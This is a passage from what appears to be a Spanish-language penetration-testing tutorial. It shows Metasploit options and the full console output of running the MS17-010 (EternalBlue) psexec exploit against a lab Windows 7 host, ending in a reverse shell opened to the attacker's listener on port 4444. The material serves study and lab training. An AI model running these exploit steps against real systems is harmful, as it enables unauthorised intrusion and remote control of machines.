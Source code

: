 ```
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Una vez que todo está configurado y listo para comenzar, podemos proceder a lanzar el ataque. Tenga en cuenta que la carga útil no se estableció aquí, ya que la predeterminada es suficiente para esta demostración.

### **MSF - Exploit Ejecución**

Módulos

```
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
